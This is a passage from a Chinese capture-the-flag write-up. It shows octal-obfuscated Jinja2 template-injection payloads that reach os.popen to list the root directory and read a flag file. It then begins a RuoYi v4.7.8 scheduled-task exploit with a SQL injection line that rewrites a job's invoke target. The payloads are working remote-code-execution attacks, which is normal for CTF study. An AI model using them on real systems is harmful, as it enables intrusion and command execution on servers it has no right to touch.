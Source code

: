 payload:

```has-numbering
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\163\137\137'][0]['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[133]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\137\137\142\165\151\154\164\151\156\163\137\137']['\145\166\141\154']('\137\137\151\155\160\157\162\164\137\137\050\042\157\163\042\051\056\160\157\160\145\156\050\042\154\163\040\057\042\051\056\162\145\141\144\050\051')}}

```



![image-20240810225935599](https://img-blog.csdnimg.cn/img_convert/2d0bdba004a9d5c7429f0baaeb57e36b.png)

读取flag

```has-numbering
{{''['\137\137\143\154\141\163\163\137\137']['\137\137\142\141\163\145\163\137\137'][0]['\137\137\163\165\142\143\154\141\163\163\145\163\137\137']()[133]['\137\137\151\156\151\164\137\137']['\137\137\147\154\157\142\141\154\163\137\137']['\137\137\142\165\151\154\164\151\156\163\137\137']['\145\166\141\154']('\137\137\151\155\160\157\162\164\137\137\050\042\157\163\042\051\056\160\157\160\145\156\050\042\143\141\164\040\057\146\061\061\061\061\061\061\061\061\061\061\061\061\061\061\061\064\147\056\164\170\164\042\051\056\162\145\141\144\050\051')}}

```



![image-20240810230026637](https://img-blog.csdnimg.cn/img_convert/0924f6ca3ed233b32a645849f5e25b15.png)

## 没有人比我更懂RuoYi



![image-20240807205532084](https://img-blog.csdnimg.cn/img_convert/39f5bd2a83743e6db2ddf8ee3bec0f66.png)

看题目描述，若依的版本是v4.7.7，屏蔽定时任务bean违规的字符但是没屏蔽干净，造成了漏洞。

尝试了一下4.7.6 版本 任意文件下载漏洞，已经失效了。



![image-20240907020508411](https://img-blog.csdnimg.cn/img_convert/de44912fe99c0936cc2f1c53016802b3.png)

参考文章：

若依4.7.8版本计划任务rce复现_若依计划任务rce-CSDN博客

POC/RuoYi/RUOYI-v4.7.8存在远程代码执行漏洞.md at main · wy876/POC · GitHub

这题有师傅写wp了，写的很好：ruoyi-v4.7.8-RCE分析 - EddieMurphy’s blog (eddiemurphy89.github.io)

开始做题。

==第一步是计划任务sql注入==

先验证一下4.7.8计划任务sql注入

```has-numbering
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'test~' WHERE job_id = 1;')

```
